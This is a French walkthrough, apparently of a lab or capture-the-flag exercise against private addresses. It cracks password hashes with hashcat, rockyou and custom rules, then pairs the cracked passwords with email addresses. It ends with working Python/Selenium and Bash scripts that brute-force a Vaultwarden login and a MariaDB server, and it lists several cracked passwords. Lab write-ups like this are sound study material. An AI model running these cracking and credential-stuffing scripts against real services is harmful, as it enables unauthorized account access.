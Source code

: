 On va maintenant essayer de trouver avec quel algorithme les mots de passe ont été hachés.  
Pour ce faire, on va utiliser **hashcat**.

![[Pasted image 20250131131751.png]]

Hashcat nous retourne plusieurs méthodes de hachage possibles.  
On peut désormais essayer chaque méthode de hachage avec une liste de mots de passe courants, ici **rockyou**.

Avec cette commande :

"hashcat -m 17600 -a 0 "Desktop/hashs" Desktop/rockyou.txt -O"

on obtient **4 mots de passe** :

- **theused13**
- **hockey43**
- **12373**
- **3976553**

On peut voir des similitudes entre ces mots de passe. La plus flagrante est le **3** qui est rajouté à la fin de chaque mot de passe.  
On va tester notre théorie en ajoutant une règle à **hashcat**, lui indiquant d'ajouter "3" à la fin de chaque mot de passe dans la liste **rockyou**.

Pour ce faire, on crée un fichier texte et on écrit dedans : **"$3"**, indiquant à hashcat d’ajouter **3** à la fin.

Puis on exécute :

"hashcat -m 17600 -a 0 "Desktop/coco.txt" Desktop/hashs.txt -O -r the.rule"

Avec le flag **-r**, on peut dire à hashcat d’utiliser notre règle précédemment créée.

Cette fois, on obtient **200 nouveaux mots de passe**.

Avec un plus grand échantillon, on peut en déduire de **nouvelles règles** :

- **Tous les mots de passe sont en minuscules.**
- **Toutes les lettres "a" sont remplacées par "@".**

On modifie maintenant la règle précédemment créée :

- **"sa@"** indique que toutes les instances de "a" doivent être remplacées par "@".
- **"l"** indique que tout doit être en minuscules.

On vérifie si notre raisonnement est correct avec :

"hashcat -m 17600 -a 0 "Desktop/hashs" Desktop/rockyou.txt -O -r the.rule"

![[Pasted image 20250131133431.png]]

**Bim !** **470 hashes uniques trouvés !**

---

Maintenant qu'on a les mots de passe, on va créer un fichier à l'aide d'un script **Python** qui va associer chaque mot de passe à l’adresse e-mail correspondante.

### Script Python :

import pandas as pd

# Chemins des fichiers
passwords_file = "hash.txt"
emails_file = "dbo.authentication.csv"
output_file = "credentials.txt"

# Lire le fichier des mots de passe et stocker les hashes associés aux mots de passe
passwords = {}

with open(passwords_file, "r") as file:
    for line in file:
        parts = line.strip().split(":")
        if len(parts) == 2:
            hash_value, password = parts
            passwords[hash_value] = password

# Lire le fichier CSV contenant les adresses e-mail et les hashes des mots de passe
emails_df = pd.read_csv(emails_file)

# Associer les hashes aux emails
matched_credentials = []
for index, row in emails_df.iterrows():
    email = row["username"]
    hash_value = row["password"]
    if hash_value in passwords:
        matched_credentials.append((email, passwords[hash_value]))

# Écrire les correspondances dans un fichier texte
with open(output_file, "w") as file:
    for email, password in matched_credentials:
        file.write(f"{email}:{password}\n")

print(f"Fichier généré : {output_file}")

On a maintenant un fichier qu'on peut **facilement utiliser** pour brute-force un service.

---

On a désormais **trois chemins possibles** avec cette méthode :

- Un **service SSH** (**peu probable**).
- Une **page web Vaultwarden** (**possible**).
- Un **service MariaDB** (**fortement probable**).

---

On a commencé par essayer de brute-force **Vaultwarden** à l'aide de ce script **Python** :

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.common.by import By
import time

driver = webdriver.Firefox()
driver.get("https://172.16.10.42/#/login")
time.sleep(2)

with open("matched_credentials.txt") as file_in:
    for line in file_in:
        creds = line.strip().split(':')
        mail_input = driver.find_element(By.ID, "bit-input-1")
        mail_input.clear()
        mail_input.send_keys(creds[0])
        mail_input.send_keys(Keys.RETURN)

        passwd_input = driver.find_element(By.ID, "bit-input-0")
        passwd_input.send_keys(creds[1])
        passwd_input.send_keys(Keys.RETURN)

        if "Get master password hint" in driver.page_source:
            driver.find_element(By.LINK_TEXT, "Not you?").click()
            time.sleep(1)
        else: 
            print(mail_input)
            print(passwd_input)

driver.close()

**Sans succès.**

---

On va maintenant essayer d'attaquer **MariaDB** avec ce script **Bash** :

#!/bin/bash

IFS=''
while read line; do
    user=$(echo $line | cut -d ':' -f 1)
    pass=$(echo $line | cut -d ':' -f 2)
    echo "Tentative de connexion avec ${user}:${pass}"
    mysql --ssl-verify-server-cert=FALSE --host=172.16.10.43 -u "${user}" -p"${pass}"
done < credentials.txt

